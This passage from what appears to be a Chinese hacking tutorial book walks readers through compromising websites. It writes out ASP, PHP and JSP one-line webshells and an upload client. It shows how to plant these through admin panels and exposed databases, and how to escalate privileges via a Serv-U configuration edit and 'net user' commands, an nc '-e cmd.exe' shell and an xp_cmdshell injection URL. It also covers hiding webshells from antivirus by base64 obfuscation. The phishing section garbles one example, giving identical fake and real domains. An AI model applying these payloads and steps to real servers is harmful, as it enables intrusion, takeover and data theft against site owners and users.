其中，URL 为存在注入漏洞的网站地址。对于木马，这里有“采用默认木马”“选择木马”及“远程木马位置”。默认的情况下是采用这个工具自带的木马，不过我们一般不要用这个功能；“选择木马”就是利用我们本地电脑的木马，点击“选择”可以用来选择要上传的不同木马；而“远程木马位置”就是放在远程主机或网站上的木马，要使用我们填上木马的网址就可以了。

选项有“BACKUP DATABASE”和“Web 作业”两个选择，这个我们可以随便选。而“增加成功后，删除新建的临时表”是为了防止发现我们建立了一个表而设置的，默认情况下是选上的，所以为了增加隐蔽性大家不要把它去掉。

而我们点击“设置”按钮后就会出现我们所要建的临时表的名称、字段名及字段类型。这些我们都可以按照自己的意愿设置，如图 2-215 所示。一切弄好了以后点击“开始”按钮后就进行了，如果成功的话，就会获得 webshell。在“操作信息”中有我们所需要的返回信息。
图 2-215 对临时表的设置

#### 2.9.4 写入过滤不完全

利用过滤不完全写入一句马的服务端，然后利用客户端进行连接得到一个 webshell，是目前得到 webshell 的最为主要的方法之一。要利用写入过滤不完全来获得 webshell，就涉及到一句话木马了。所以在介绍过滤不完全之前先介绍一下一句话木马。

一句话分为客户端和服务端，其实就是 C/S 模型的网页木马，即有服务端和客户端之分。要利用一句话木马得到 webshell，首先就是要将服务端代码插入到网站中，让服务端可以在所要入侵的网站中被执行，这个时候我们就得到了一个小马了，即一个 shell；然后我们利用客户端连接服务端，上传一个功能非常强大的木马，这样我们就获得了一个大马，即 webshell。

先来介绍下 ASP 下的一句话木马，ASP 下常见的一句话木马的服务端是 `<%execute request("value")%>`，其中 value 我们可以是任何值。当然，我们还可以对服务端 `<%execute request("value")%>` 进行变换，如 `<%execute request.form("value")%>`、`<%eval request("value")%>`、`<%On Error Resume Next execute request("value")%>` 等等。

接下来我们就是要把 ASP 一句话木马插入到网站中，不过这里的插入是指把一句话木马的服务端插入到 ASP 文件中去，因为服务端其实就是一小段 ASP 代码，至于其作用在后面的第 7 章会有详细的介绍。插入到 ASP 文件中后，我们的服务端就会被执行，那么这个时候就得到了一个 shell 了。

而我们来看看 ASP 一句话木马的客户端，如图 2-216 所示。
图 2-216 ASP 一句话木马的客户端界面

在客户端的界面中，我们利用它可以得到一个 webshell。要得到 webshell 自然就是要上传一个 ASP 木马才能得到啦，所以我们要把 ASP 木马的代码复制到“添入生成木马的内容”的区域中，不过要把“添入生成木马的内容”这几个字删除掉。比较著名的 ASP 木马海洋顶端等等，我们把它的代码复制到“添入生成木马的内容”即可。要使用这个客户端，首先要设置一下这个客户端，先来看看它的源代码，我们点击右键选择“查看源文件”即可看到源代码了，代码如下所示：

```html
<form action=http://www.gzyecheng.com/zhishi/200582432342.asp method=post>
<textarea name=value cols=120 rows=10 width=45>
set lP=server.createObject("Adodb.Stream")
lP.Open
```

```asp
lP.Type=2
lP.CharSet="gb2312"
lP.writetext request("value")
lP.SaveToFile server.mappath("wei.asp"),2
lP.Close
set lP=nothing
response.redirect "wei.asp"
</textarea>
<textarea name=joeving cols=120 rows=10 width=45>添入生成木马的内容
</textarea><BR><center><br>
<input type=submit value=提交>


```

其中，第一句代码中的 action 后的 URL 地址就是我们插入服务端的 ASP 文件的完整 URL 地址。这个 URL 地址非常关键，决定着我们得到 webshell 的成败，action 的值就是我们插入服务端代码的 ASP 文件的 URL 地址，一定要记住了。

还有就是 `lP.writetext request("value")` 这行代码中的 value 要注意了，前面我说 `<%execute request("value")%>` 中的 value 可以随便填什么，这个没有错，但是不管 `<%execute request("value")%>` 中的 value 为任何值，它都必须和 `lP.writetext request("value")` 中的 value 相同。比如，我们服务端输入的是 `<%execute request("cmd")%>`，那客户端的 `lP.writetext request("value")` 就必须改为 `lP.writetext request("cmd")`。

最后就是 wei.asp 这个文件名，它是指我们得到 webshell 后的文件名，我们也可以随便改，比如改成 shell.asp，那么 webshell 的文件名就为 shell 了。

只要对上面三个进行了设置，然后添入我们 ASP 木马的内容，点击提交后，就可以得到 webshell 了。如果觉得上面的麻烦，那么还可以使用海阳顶端网 ASP 木马 2006 C/S 模式转换器得到一个专用的客户端，如图 2-217 所示。
图 2-217 海阳顶端网 ASP 木马 2006 C/S 模式转换器

要生成客户端，首先点击“打开”按钮，选择我们的 ASP 木马，然后点击“转换”按钮就得到了客户端了，如图 2-218 所示。下面的“生成服务端页面”是用于生成服务端的作用，可以在服务端密码处输入服务端的密码，其实密码就是 `request("value")` 中的 value 的值。
图 2-218 生成的客户端页面

生成的客户端如图 2-218 所示，其中在表单提交地址中我们所要输入的 URL 地址就是插入一句话木马服务端的那个 ASP 文件的 URL 地址。而密码就是进入 webshell 的时候所要输入的密码。而在下面的区域里，生成的客户端已经自动为我们添入了 ASP 木马的代码，我们只需要填上 URL 地址和密码后，点击提交即可得到 webshell。

前面我们说了，要利用一句话木马得到 webshell，首先必须将服务端插入到 ASP 文件中。那么在 ASP 下，我们怎么把服务端插入到网站的 ASP 文件中呢？有两种方法：

- 1. 在通过注入等手段进入后台后，利用后台所提供的功能插入服务端。常见的可以使用的地方有如友情链接、页面编辑、模块编辑等等，只要可以输入数据的地方大家都可以试着输入服务端，不过一定要记着这个输入数据的文件的 URL 地址，这个 URL 在后面会有很重要的作用。

这里我以 leadbbs 来为大家演示，首先我通过前面所讲的入侵方法进入了一个 leadbbs 论坛的后台。进入后台后，利用 leadbbs 后台提供的友情链接添加处写入 webshell，我们来到后台的添加友情链接处，点“新增友情链接”，而实现“新增友情链接”这个功能的文件名为 BoardLink.asp。然后在“网站名称”处填上一句话木马的服务端 `<%execute request("#")%>`，其它乱填，如图 2-219 所示。

图 2-219 后台写入服务端

然后我们利用客户端进行连接，这里最好还是用海洋顶端生成的客户端来连接，我们在 URL 地址上填入 BoardLink.asp 文件的完整路径，并填入 webshell 的密码，如图 2-220 所示。

图 2-220 利用刚才得到的 shell 提交一个功能强大的木马

点击“提交”按钮之后，我们就可以得到一个 webshell 了，是不是很简单呢？如图 2-221 所示。

图 2-221 得到 webshell

二、通过暴库或其他方法（如默认数据库地址）得到网站数据库的绝对路径。但是暴出的数据库必须是以 asp 结尾的数据库，即数据库的格式为 asp。有了数据库地址后，我们就要利用网站过滤不完全的漏洞往数据库中插入我们的服务端代码，即我们所输入的服务端要插入到数据库中才会起作用。例如利用系统提供的评论功能将服务端插入到数据库中。当然必须是系统没有对这些代码进行过滤，过滤了还是没办法。在这个方面最为典型的就是许愿版漏洞了，首先利用 %5c 暴库得到数据库的绝对路径，其中数据库为 asp 格式的，如图 2-222 所示。

图 2-222 得到许愿版网站数据库的绝对路径

在得到数据库绝对路径之后，我们在这个许愿版里许一个愿望，当然内容是输入一句话木马的服务端 `<%execute request("#")%>`，那么这个时候我们的服务端就被插入了数据库。我们再利用客户端连接，其中 URL 地址就填上数据库的地址，提交之后我们就顺利地得到 webshell，如图 2-223 所示。

图 2-223 通过暴库得到的 webshell

上面讲的是 ASP 下的一句话木马，那接下来介绍下 PHP 下的一句话木马。PHP 下一句话木马的服务端有：`<?require($_REQUEST['a']);?>`、`<?require($a);?>`、`<?@include($_POST["a"]);?>` 等等。

同样要在 PHP 网站利用一句话木马得到 webshell，首先要将我们的服务端插入到网站中的 php 文件中去，所以我们只要把服务端插入到网站的 php 文件中就可以得到一个 shell。一般对于 php 网站来说，要将服务端插入到网站的文件中也有两种办法：一是利用后台的功能，将服务端插入到 php 文件中，和 asp 中的第一点是一样的；二是利用目前很多 php 网站中使用的文本数据库，即数据库文件的后缀为 php，所以一般我们输入的数据也是放入到 php 格式的文件中去了，那么我们往该数据库中插入服务端即可得到一个 shell，和 asp 中的第二点也是比较类似。不过还是和前面一样，我们所插入的服务端的 URL 地址大家可不要忘记了。

在插入服务端成功之后，就是要用客户端进行连接了，这里我强烈向大家推荐一款叫做“ZV 新型 PHP 一句话木马客户端 GUI 版”的工具给大家，它把客户端做成了一个软件的形式，使用起来非常方便，如图 2-224 所示。

图 2-224 ZV 新型 PHP 一句话木马客户端 GUI 版的界面

在图 2-224 中，“提交地址”就是我们所插入了 PHP 一句话木马服务端的那个 php 文件的 URL 地址。“密码”为我们进入 PHP 的 webshell 的密码，功能列表就是选择我们所上传的 php 大木马的一些功能，服务端模式可以看到它用的是 `<?@include($_POST["你的密码"]);?>` 提交的，其中“你的密码”就是前面“密码”输入框中所要输入的内容。

当我们把上面的提交地址和密码输入好以后，并选择所要上传的 PHP 木马的一些功能，点击“提交”按钮就可以得到 PHP 下的 webshell 了。

对于 JSP 来说，同样存在一句话木马。不过 JSP 的一句话木马的服务端和上面的有点不一样，其服务端代码为：`<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>`。我们可以将这个服务端代码保存为 1.jsp，放到 JSP 服务器下去，我们提交 `http://localhost/1.jsp?f=1.txt&t=hack`，然后我们再提交 `http://localhost/1.txt`，一句话木马就出来了，它的内容为 hack。

这里给大家介绍一下 f 和 t 这两个参数，其中参数 f 是用来在服务器中生成文件的文件名，而参数 t 是用于接收所提交的数据。

对于这个一句话木马，我们可以这样利用。首先还是一样，将这个服务端插入到 JSP 网站中的 jsp 文件中，而且记住这个文件的文件名。这里假设我们插入了服务端的文件的 URL 地址是 `http://www.xxx.com/article.jsp`。插入服务端成功之后，接下来就是要将我们的大马传到 JSP 网站中去从而得到 webshell。

这里我们提交 `http://www.xxx.com/article.jsp?f=shell.jsp&t=http://www.xxx.com/shell.txt`。其中 shell.jsp 就是我们在服务器中生成的文件，即 JSP 木马文件名。而参数 t 的值 `http://www.xxx.com/shell.txt` 是我们 JSP 文件的代码，当然 t 参数的值也可以直接是 JSP 的代码，这里即支持通过 URL 提交木马代码，也支持直接提交 JSP 木马代码，和我们前面所讲的 PHP 中文件包含漏洞比较类似。当成功提交之后，我们就可以得到一个 JSP 的 webshell 了。

上面我简单地介绍了目前几种常见的、主要的获得 webshell 的方法，相信大家已经掌握了。当然获得 webshell 的方法远远不止上面所讲的几种。但是获得 webshell 的思想是不会变的，关键是要看大家怎么灵活运用、触类旁通。要达到灵活运用和触类旁通需要通过长期知识的积累，希望上面的方法能够给大家起到抛砖引玉的作用。各位继续加油吧！

## 2.10 使用Webshell及提升权限

### 2.10.1 webshell的基本使用方法

上面说了那么多的入侵方法，相信大家已经能够获得自己的 webshell 了吧。那么当我们拿到 webshell 之后怎么使用呢？这是很多刚刚入门的朋友感到困惑的问题。下面我就以海洋顶端 2006ASP 木马为例来给大家说说 webshell 的一些基本使用方法。

首先，我们来下载海洋 2006 木马文件包，解压后会发现七个文件，它们分别是：2006.asp、unpack.vbs、2006×.exe、2006×2.exe、2006Z.exe、hididi.ini、ReadMe.txt。其中 2006.asp 就是 ASP 木马的主文件，我们用记事本打开这个主文件，把默认密码 lcxmarcos 改为自己想要的密码（当然不改也行），然后用前面说的方法把这个文件放到网上去。用密码登录后，我们就可以看到如图 2-225 所示页面。这里列举了十三项大的功能，我只是就其中的一部分来讲解，其他的请各位自己去摸索。

图 2-225 海洋顶端木马主界面

首先看第 8 项功能：FSO 文件浏览操作器，FSO 大家应该很熟了吧，点击进入后我们可以看到如图 2-226 所示的界面。如果权限足够的话，我们可以在这里对服务器上任何的盘符进行包括新建、删除、读取、修改、修改属性、运行等文件操作，具体怎么做不用我教了吧？

图 2-226 FSO 的使用

下面再来看 wscript.shell 程序运行器，进入该功能后会出现如图 2-227 所示界面，如果服务器不支持 FSO，可以尝试在这里输入 cmd 命令执行，例如我这里执行 `dir c:\`，看 C 盘的目录是不是都列出来了呢，如图 2-228。另外，如果用默认的 cmd 路径无法执行，我们可以自己上传一个 cmd.exe 到有执行权限的目录，然后填好文件路径再执行。

图 2-227 wscript.shell 程序运行器

图 2-228 执行 dir 命令之后返回的结果

下面我们再来看看海洋 2006ASP 木马的第 1—5 项功能，这些是帮助我们收集服务器信息的，有助于我们进一步的入侵。

进入“系统服务信息”后，我们就可以看到系统打开的所有服务和详细说明，如图 2-229。

图 2-229 系统服务信息

进入“服务器相关数据”后，我们就可以看到系统参数、系统磁盘、站点文件夹、终端端口等信息，如图 2-230 所示。

图 2-230 服务器相关数据

而“服务器组件探针”则可以列出服务器上各组件的名称和支持情况，如图 2-231。

图 2-231 服务器组件探针

“系统用户和用户组信息”可以帮助我们列出服务器上所有用户、用户组的详细信息，如图 2-232。

图 2-232 系统用户和用户组信息

客户端服务器交互信息是为我们列出服务器上 Application、Session、Cookies 等信息的地方，如图 2-233。

图 2-233 客户端服务器交互信息

另外，第十一个功能“文件打包功能”是海洋 2006 新增的一个亮点，它可以不用 WinRAR 打包服务器上的文件夹，无论是否支持 FSO 都能完成，如图 2-234。打包好后，我们可以在海洋 2006 木马的同级目录下找到 hyfop.mdb 文件，下载回来后用 unpack.vbs 解压就可以了。另外，如果服务器支持 FSO，我们也可以用这个功能在服务器上解包。

图 2-234 文件打包功能

海洋 2006ASP 木马还增加了“一些零碎的小东西”，其中比较实用的有注册表的读取功能，如图 2-235。填下注册表的键值路径后，点“读取”就能读出注册表键值了，如图 2-236。

图 2-235 注册表的读取功能

图 2-236 读取注册表的结果

除了海洋 ASP 木马的主体文件外，它的压缩包里的其他文件也是大有用途，比如刚才说的 unpack.vbs 是解压打包用的。另外我们还可以自己定制海洋 2006 的功能，如我们只需要 FSO 文件浏览器，我们就运行 2006Z.exe，如图 2-237，在“页面选择”处勾选 FSO 文件浏览操作器，选择好源文件 2006.asp 和生成后的文件名后点“生成”，一个只有 FSO 文件浏览器功能的木马就生成了，如图 2-238 所示。

图 2-237 选择木马的一些功能

图 2-238 具有 FSO 功能的木马

以上就是海洋顶端木马的基本使用方法，其他类型的 ASP 木马的使用方法也大多如此，而且海洋顶端的功能也是最为强大的。当然，它的使用方法还有很多没有讲，所以为了大家能够更好地学习和使用，我已为大家收集了海洋顶端木马的用户手册，可以在光盘中找到。

下面再给大家简单介绍一下 PHP 木马，其实不管是 ASP、PHP、JSP 木马，它们的用法总的来说都差不多，而且使用的方法受服务器上操作系统的影响也比较大。所以这里就简单介绍一下 PHP 木马在 Linux/Unix 操作系统上的基本用法。这里我使用的是国外的一款 PHP 木马，名字叫 R57 shell，其功能相对国内的来说要强大一些，我已把它收集到了光盘中，下面就来简单介绍一下它的用法，其他类型的 PHP 木马使用方法也大多是相类似的。

在用这个木马得到一个 webshell 之后，在其最上面有网站的一些配置信息，如图 2-239 所示。

图 2-239 网站的一些配置信息

上面显示了服务器上的时间，还有 PHP 网站的一些信息，php.ini 则显示了 PHP 的配置信息；CPU 的类型；内存大小；还有后台数据库的类型及 PHP 版本；还有哪些函数是不可用的及其硬盘已用及空闲空间。

我们还可以得到网站服务器上操作系统的一些配置信息，如图 2-240 所示。

图 2-240 操作系统的信息

上面显示了操作系统的类型，它上面显示的为 Linux iglu，版本为 2.6.14.4，这个信息对我们后面的提权很有用。还有服务器的类型，为 Apache/2.0。还有当前用户登录的 ID 号，及其当前网站的绝对路径，后面的括号则是显示的权限。

而且我们还能够遍历当前网站下所有的文件，如图 2-241 所示。

图 2-241 遍历当前网站目录

我们还能够改变当前的工作目录、编辑文件、新建或删除目录和文件，如图 2-242 所示。

图 2-242 对目录和文件的操作

还能够改变目录和文件的权限，这个功能对我们提权非常有用，在介绍文件包含的时候就已经介绍过了，如图 2-243 所示。

图 2-243 改变权限

这个木马还提供了查找文件的功能，如图 2-244 所示，其中 find text 为查找文件的文件名，in dirs 为要查找的目录，only in files 为要查找文件的后缀名。

图 2-244 文件查找

我们还能够在其中执行一些 PHP 代码，如图 2-245 所示，在文本框中输入 PHP 代码之后，点击“Execute”按钮就可以执行代码了。

图 2-245 执行 PHP 代码

我们前面在讲 PHP 手工注入的时候就提到过读取文件的功能，而 PHP 自然也少不了这些功能了，它提供了很多在安全模型（safe_mode）下测试系统能否执行的选项，如图 2-246 所示。

图 2-246 测试安全模型下一些功能是否能用

还可以往服务器上上传文件及下载文件，如图 2-247 所示。其中下载还提供了几种压缩形式。

图 2-247 上传和下载功能

如果对方服务器上存在 FTP 服务器的话，还可以通过它来上传和下载文件，更加方便和快捷，如图 2-248。

图 2-248 FTP 服务器的上传与下载

另外对于后台数据库，该木马也提供了相应的功能，为修改数据库中的表还有执行 SQL 命令，如图 2-249 所示。

图 2-249 对数据库的相关操作

以上就是一个 PHP 木马的大体功能，相信大家对它已经有一定的认识了。最后就是要多多去实践，在实践中掌握更多的技巧与方法。

对于 JSP 木马，它的功能和上面所讲的 ASP、PHP 木马差不多。在光盘中已经收录了一款比较好的 JSP 木马。它能够对文件进行管理及操作，还可以查看各种属性；还可以执行命令；操作目录等等。目前 JSP 木马还是比较少，功能也相对弱一些，JSP 木马有的功能，其他如 ASP、PHP 下的木马都有。因此掌握了 ASP 和 PHP 木马的使用，JSP 的使用就不在话下了，所以这里对 JSP 不再进行详细的介绍。

### 2.10.2 webshell的提权

我们入侵网站得到 webshell 后并不是就控制了整个服务器，其实很多情况下 webshell 的权限是很小的。所以在获得 webshell 之后就是提升权限，从而获得管理员权限，最终控制整台服务器。下面给大家简单介绍一些常见的提升权限的方法。

我们知道，现在很多网站都采用虚拟主机，所以电信为了方便网站管理员对网站的管理，一般都安装了一些软件，比如 pcAnywhere、Serv-U 等等。

- 1. 如果服务器上装了 pcAnywhere 服务端，管理员为了管理方便也给了我们方便。它默认安装在系统盘的 `Documents and Settings/All Users/Application Data/Symantec/...`cAnywhere/目录下，我们先看能否跳转到这个目录，如果能跳转的话，那么就下载 `*.cif` 文件。用记事本打开 cif 文件，那么我们就得到 pcAnywhere 的密码了，直接利用它登录即可得到管理员权限。

- 2）还可以下载服务器的 SAM 表，其文件路径为“系统盘:\WINNT\system32\config\”下。如果能够跳转到这个目录中，那么就下载文件名为 `SAM` 的文件到我们本地的计算机中，对于 SAM 可以利用 LC5 这个工具破解出用户密码。

- 3）虚拟主机用得最多的软件应该算是 serv-u 这个 FTP 工具。serv-u 也是漏洞出现得非常多，所以利用它进行提权是最为常用的方法。我们先要判断服务器中是否安装了 serv-u，首先看能否跳转到“系统盘:\Documents and Settings\All Users\「开始」菜单\程序\”这个目录中，我们从这里可以获取好多有用的信息。可以看见好多快捷方式，如果安装了 Serv-U，那么也可以看到其快捷方式，我们可以本地查看属性，即查找 Serv-U 的安装路径，有了 Serv-U 的安装路径，我们就看能否跳转到这个安装路径中。

如果可以跳转，跳转成功之后，我们要看 serv-u 的 `ServUDaemon.ini` 是否可写，如果可写我们就可以很快得到管理员的权限了。打开 `ServUDaemon.ini` 后，我们会在 `[Domain]` 这一栏下加上 `user9=[hack|1|0`，其中数字 9 可以更换，然后在后面加上：

```ini
[USER=hack|1]
Password=
HomeDir=c:\winnt\system32
TimeOut=60
Maintenance=System
Access1=c:\winnt\system32\RWAMELCDP
KEYSValues=
```

保存后我们用 FTP 客户端登录，用户名为 `cnnsafe`，密码为空，然后执行 `quote site exec net user hack hack /add` 和 `quote site exec net localgroup administrators hack /add`，你就得到管理员权限了。

如果 `ServUDaemon.ini` 文件不可写，我们还可以用 serv-u 的本地溢出漏洞提权。找个可执行的目录，上传我们的提权工具 `su.exe`，然后到 wscript.shell 中执行，执行成功后我们就可以得到服务器权限了。

比如我们利用 Serv-u FTP Server 本地权限提升漏洞：因为很多主机的“系统盘:\Documents and Settings\All Users\Documents”目录以及下边几个子目录没有设置权限，导致可以在这个目录上传并运行 Exp。因此我们直接上传了 serv-u local exploit 和 nc，并且把 serv-u 的本地提升权限程序命名为 `su.exe`，文件就放在“C:\Documents and Settings\All Users\Documents”，然后我们用 `su.exe` 直接建立用户，也可以反弹一个 shell 过来。

```text
具体命令：
建立用户：serv-u.exe "cmd"
>USER xl
>PASS 111111

反弹 shell：serv-u.exe "nc.exe -l -p 99 -e cmd.exe"
```

- 4）查找 conn 和 config、pass 这类型的文件看能否得到 sa 或者 mysql 的相关密码，可能会有所收获等等。

- 5）先检查有什么系统服务，或者随系统启动自动启动的程序和管理员经常使用的软件，比如诺顿、金山、瑞星、WinRAR 甚至 QQ 之类的，是否可以写，如果可以就修改其程序，绑定一个批处理或者 VBS，里面写入我们的木马，然后等待服务器重启。当重启的时候，我们的批处理或 VBS 也会被执行，那么它就会去下载我们的木马，进而控制服务器。

- 6）很多有经验的管理员会将 `cmd.exe`、`net.exe` 和 `net1.exe` 都给删除。那么我们得到了 webshell 也无法执行命令，这对我们提权是一个很大的阻碍。所以我们要把 `cmd.exe` 文件上传到服务器中去，然后调用上传的 CMD 来执行命令。

利用 webshell 提供的上传功能上传一个 `cmd.exe`（默认情况下在 `WIN\system32\cmd.exe`）到 WEBSHELL 目录（其它目录也行，把上传以后的 `CMD.exe` 绝对路径记出来）。然后修改 webshell 找到调用 `cmd.exe` 的代码，调用代码如下所示：

```vb
Function CmdShell()
If Request("cmd")<>"" Then
    DefCmd = Request("cmd")
Else
    DefCmd = "Dir " & Session("FolderPath")
End If
SI=""
SI=SI&""
SI=SI&""
SI=SI&server.createobject("wscript.shell").exec("cmd.exe /c " & DefCmd).stdout.readall
SI=SI&Chr(13)&"Rar 命令行压缩示例: c:\progra~1\winrar\rar.exe a d:\web\test\web1.rar d:\web\test\web1"
Response.Write SI
End Function
```

我们把它修改成以下代码：

```vb
Function CmdShell()
If Request("cmd")<>"" Then
    DefCmd = Request("cmd")
Else
    DefCmd = "Dir " & Session("FolderPath")
End If
SI=""
SI=SI&""
SI=SI&""
SI=SI&server.createobject("wscript.shell").exec("上传的cmd.exe绝对路径 /c " & DefCmd).stdout.readall
SI=SI&Chr(13)&"Rar 命令行压缩示例: c:\progra~1\winrar\rar.exe a d:\web\test\web1.rar d:\web\test\web1"
Response.Write SI
End Function
```

为了大家看得清楚，把要修改的提出来，原来的：

```vb
SI=SI&server.createobject("wscript.shell").exec("cmd.exe /c " & DefCmd).stdout.readall
```

修改成：

```vb
SI=SI&server.createobject("wscript.shell").exec("上传的 cmd.exe 绝对路径 /c " & DefCmd).stdout.readall
比如你上传到的目录是 D:\web\www\cmd.exe，那么就修改成：
SI=SI&server.createobject("wscript.shell").exec("D:\web\www\cmd.exe /c " & DefCmd).stdout.readall


```

那么这样，我们就可以执行各种命令了，比如添加一个管理员等等。

- 7）这种方法适合于后台数据库是 SQL Server 的情况，我们要用到 SQL Server 的 cacls 及 xp_cmdshell。可以提交：`http://www.xxx.com/xx.asp?id=xx;exec master.dbo.xp_cmdshell 'cacls d:\home /t /e /c /g everyone:f';--`，这样赋予了操作系统中 everyone 组的成员所有的权限，然后我们就可以上传文件、改他主页了！

- 8）利用本地溢出程序进行提权。在得到 webshell 后，我们先查看服务器上哪些目录是可执行的，然后再查找操作系统的版本以及在服务器上安装了哪些软件。在确定了这些信息后，我们就查找这些软件存在的相应溢出程序，并上传到服务器的可执行目录中，接着溢出，成功的话一下就可以得到管理员权限。这种方法是我最为强烈推荐给大家的，不管它是哪种操作系统，我们只要确定其操作系统或安装的软件中存在溢出漏洞，那么使用溢出程序溢出是最快得到管理员权限的方法。

其实 webshell 的提权方法还有非常多，这里我只给大家简单介绍几种。方法的种类虽然多，但是它们都是为了达到可以执行相应程序、命令，进而得到更高权限的目的。所以方法虽然多，可它的核心变不了，提权方法与技巧终究还是如此。不过我还是推荐使用溢出来提权这种方法。要使用这种方法需要做两个方面的工作：一、得到一个可以执行的目录。二、确定操作系统和其安装的软件中哪个存在溢出漏洞。至于更多的技巧与方法就要靠大家在平时入侵的过程中不断积累，从实战中获得经验。我们的目的就是要将服务器控制到底！

#### 2.10.3 木马的加密与防杀

随着网页木马的泛滥，很多杀毒软件都已经把它们列为严厉打击的对象了。我们辛辛苦苦得到的 webshell 就被杀毒软件 kill 了，岂不亏大了。所以为了能够让 webshell 长期生存在网站中，我们必须反击，对付杀毒软件。那么我们怎么防止杀毒软件的查杀呢？有两种办法：一是换一匹不会被查杀的木马，二是对木马进行加壳，让杀毒软件识别不了这个木马，从而达到躲过杀毒软件查杀的目的。

我们先来说说换木马。目前很多工具都是用于方便管理而做的，但是在管理的同时它们也能够当作木马来用，也能够达到与木马一样的功能。比如海洋顶端和老兵的 ASP 站长助手，海洋顶端目前是杀毒软件重点查杀的对象，而老兵的 ASP 站长助手却很少有杀毒软件对其进行查杀，但是它的功能一点也不比海洋顶端差。这是因为老兵的 ASP 站长助手属于管理软件，很少有软件对其进行查杀。

第二种是加壳。其实就是对木马进行加密或变换，因为杀毒软件查杀木马是靠一些关键字，而加密或变换之后关键字就没有了，那么杀毒软件就没办法识别木马了，从而躲过杀毒软件。

对于加密和变换，我们可以采用工具，也可以采用手工。这里我就介绍一下工具的使用，手工方法在后面等大家有了脚本语言基础之后再讲。对于 ASP 的加密，我们可以使用 ASP 木马免杀工具，它的操作很简单，如图 2-250 所示。选好木马源文件，先点“转换”，过一会儿再点“加密”就可以实现对这个 ASP 加密了。ASP 下的加密还有很多，这里就不多介绍了，大家可以去黑客网站上下载，它们的使用方法也都相似。
图 2-250 ASP 木马加密工具

对于 PHP 木马的免杀，这里推荐一款非常好的 GUI 工具，如图 2-251 所示，只要将我们的木马代码填入源代码的输入框中，点击加密后就可以在结果区中得到加密后的 PHP 木马。比如这里我加密 `phpinfo();`，那么其结果为 `<?php eval(base64_decode('DQpwaHBpbmZvKCk7'));?>`。而且我试过了，使用这个工具加密后可以过卡巴的查杀。
图 2-251 PHP 加密工具

对于免杀方面，《黑客手册》做得非常好，每一期杂志都有一个“黑器免杀班”的栏目，里面介绍了各种免杀技术与技巧。对于工具的免杀我也不可能花大篇幅讲解工具的使用，如果对免杀很感兴趣，可以去下载很多免杀工具来使用，同时关注《黑客手册》的黑器免杀班，那么一段时间后你的免杀技术将得到很大的提高。

### 2.11 其他技术

在我们入侵及攻击网站的过程中，不仅仅会用到上面所讲的技术，其实还有一些技术虽然并不是那么突出，但是在很多情况下它们仍然具有强大的发光点，下面就一一为大家讲来。

#### 2.11.1 网络钓鱼

网络钓鱼（Phishing）一词，是“Fishing”和“Phone”的综合体，是常见的网络诈骗行为。该词嫁接了 fishing 和 phone，该词起源于 1996 年左右。黑客起初利用电子邮件作为诱饵，盗用美国在线的帐号和密码，后来鉴于最早的黑客是用电话线作案，所以黑客们常常用 Ph 来取代 f，就形成了今天的 Phishing 一词。

“网络钓鱼”攻击利用欺骗性的电子邮件和伪造的 Web 站点来进行诈骗活动，受骗者往往会泄露自己的财务数据，如信用卡号、账户用户名、口令和社保编号等内容。诈骗者通常会将自己伪装成知名银行、在线零售商和信用卡公司等可信的品牌，在所有接触诈骗信息的用户中，有高达 5% 的人都会对这些骗局做出响应。

“网络钓鱼”的主要伎俩在于仿冒某些公司的网站或电子邮件，然后对其中的程序代码动手脚。如果使用者信以为真地按其链接和要求填入个人重要资料，资料将被传送到诈骗者手中。

实际上，不法分子在实施网络诈骗的犯罪活动过程中，经常采取以上几种手法交织、配合进行，还有的通过手机短信、QQ、MSN 进行各种各样的“网络钓鱼”不法活动。

- 1. 发送电子邮件，以虚假信息引诱用户中圈套。诈骗分子以垃圾邮件的形式大量发送欺诈性邮件，这些邮件多以中奖、顾问、对账等内容引诱用户在邮件中填入金融账号和密码，或是以各种紧迫的理由要求收件人登录某网页提交用户名、密码、身份证号、信用卡号等信息，继而盗窃用户资金。06 年 2 月份发现的一种骗取美邦银行（Smith Barney）用户账号和密码的“网络钓鱼”电子邮件，该邮件利用了 IE 的图片映射地址欺骗漏洞，并精心设计脚本程序，用一个显示假地址的弹出窗口遮挡住了 IE 浏览器的地址栏，使用户无法看到此网站的真实地址。当用户使用未打补丁的 Outlook 打开此邮件时，状态栏显示的链接是虚假的。而用户点击链接时，实际连接的是钓鱼网站 `http://**.41.155.60:87/s`。该网站页面酷似 Smith Barney 银行网站的登录界面，但是用户一旦输入了自己的账号密码，这些信息就会被黑客窃取。

- 2. 建立假冒网上银行、网上证券网站，骗取用户账号密码实施盗窃。犯罪分子建立起域名和网页内容都与真正网上银行系统、网上证券交易平台极为相似的网站，引诱用户输入账号密码等信息，进而通过真正的网上银行、网上证券系统或者伪造银行储蓄卡、证券交易卡盗窃资金；还有的利用跨站脚本，即利用合法网站服务器程序上的漏洞，在站点的某些网页中插入恶意 HTML 代码，屏蔽住一些可以用来辨别网站真假的重要信息，利用 cookies 窃取用户信息。如曾出现过的某假冒银行网站，网址为 `http://www.1cbc.com.cn`，而真正银行网站是 `http://www.icbc.com.cn`，犯罪分子利用数字 1 和字母 i 非常相近的特点企图蒙蔽粗心的用户。

又如 2004 年 7 月发现的某假公司网站（网址为 `http://www.lenovo.com`），而真正网站 `http://www.lenovo.com`，诈骗者利用了小写字母 l 和数字 1 很相近的障眼法。诈骗者通过 QQ 散布“XX 集团和 XX 公司联合赠送 QQ 币”的虚假消息，引诱用户访问。而一旦用户访问该网站，首先生成一个弹出窗口，上面显示“免费赠送 QQ 币”的虚假消息。而就在该弹出窗口出现的同时，恶意网站主页面在后台即通过多种 IE 漏洞下载病毒程序 `lenovo.exe`（TrojanDownloader.Rlay），并在 2 秒钟后自动转向到真正网站主页，用户在毫无觉察中就感染了病毒。病毒程序执行后，将下载该网站上的另一个病毒程序 `bbs5.exe`，用来窃取用户的传奇帐号、密码和游戏装备。当用户通过 QQ 聊天时，还会自动发送包含恶意网址的消息。

